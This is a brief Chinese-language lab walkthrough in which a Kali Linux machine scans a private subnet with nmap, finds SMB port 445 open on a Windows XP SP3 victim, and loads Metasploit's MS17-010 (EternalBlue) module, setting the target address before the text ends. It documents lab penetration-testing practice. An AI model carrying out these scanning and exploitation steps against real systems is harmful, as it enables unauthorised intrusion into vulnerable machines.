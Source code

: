 攻击机：kali_Linux 2023
受害机：WindowsXP-SP3


首先使用nmap扫描存活

```bash
nmap 192.168.58.0/24
```

发现目标主机445端口打开

```bash
445/tcp open  microsoft-ds
```

然后进入MSF

在漏洞库中搜索漏洞模块

```bash
search ms17_010
use 0
```

![](imgs/image-20240726152833581.png)

设置payload

```bash
set rhost 192.168.58.141
```
